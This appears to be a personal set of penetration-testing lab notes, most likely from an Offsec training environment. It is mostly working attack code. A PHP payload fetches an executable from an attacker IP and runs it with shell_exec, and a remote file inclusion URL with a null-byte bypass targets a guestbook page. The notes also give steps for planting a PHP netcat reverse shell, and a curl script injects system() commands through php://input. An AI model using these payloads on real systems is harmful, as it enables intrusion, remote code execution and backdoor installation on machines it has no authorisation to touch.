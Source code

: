 #### My scripts

put the following contents into a payload.php

```
<pre style="text-align:left;">

<?php

//file_put_contents("C:\Users\Offsec\AppData\Roaming\Microsoft\Windows\Start //Menu\Programs\Startup\ViperClient.exe", 

fopen("http://10.11.0.202/ViperClient.exe", 'r'));

//echo shell_exec("C:\Users\Offsec\AppData\Roaming\Microsoft\Windows\Start //Menu\Programs\Startup\ViperClient.exe");
	
file_put_contents("C:\Users\ViperClient.exe", fopen("http://10.11.0.202/ViperClient.exe", 'r'));

echo shell_exec("C:\Users\ViperClient.exe");

?>

</pre>

```
Then go to the website and execute the payload.php

http://*target*/addguestbook.php?name=Test&comment=Which+lang%3&LANG=http://10.11.0.202/payload_execute.txt%00&Submit=Submit



### reverse web shell in /usr/share/webshells/php

***REMINDER*** 

when copy your shell from the webshells to the /html / remember when you upload them to the tartget that you need to take note 
of the .txt and copy the file from shell.php to shell.php.txt before you copy it from the attacker to the target. 

php-nc-shell.php and opened the file in a text editor. Then I editied the ip and LPORT. 

Copy the file into /var/ww/html /php-nc-shell.php

to upload files to a server with the webdav vulnerability copy the following script into a file called 11-208.sh and then you can upload your php-nc-shell.php to the server by running the following shell script

```
 
#!/bin/bash
 
if [ -z "*dollar-sign*1" ]; then
        echo "No remote command given"
        exit 1
fi

curl -s --data "<?system('*dollar-sign*{*}');?>" "http://*ipaddress*/internal/advanced_comment_system/admin.php?ACS_path=php://input%00" | egrep -v ' *<.*' | grep -v -i "check variable"
 
```
